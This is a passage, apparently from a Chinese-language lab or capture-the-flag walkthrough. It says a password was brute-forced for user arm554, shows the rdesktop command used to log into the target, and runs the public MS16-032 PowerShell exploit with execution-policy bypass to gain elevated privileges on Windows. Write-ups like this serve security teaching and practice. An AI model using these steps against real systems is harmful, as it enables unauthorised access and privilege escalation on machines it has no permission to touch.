 爆破得到密码为`tiger`，使用该密码登陆远程机器：

```bash
rdesktop -u arm554 -r disk:share=/root/Downloads/ 127.0.0.1
```

![Alt text](./1512716933414.png)


利用[ms16_032](https://www.exploit-db.com/exploits/39719/)提权：

```bash
PS C:\Users\arm554\AppData\Local\Temp> powershell -ExecutionPolicy Bypass

PS C:\Users\arm554\AppData\Local\Temp> Import-Module .\39719.ps1

PS C:\Users\arm554\AppData\Local\Temp> Invoke-MS16-032
```
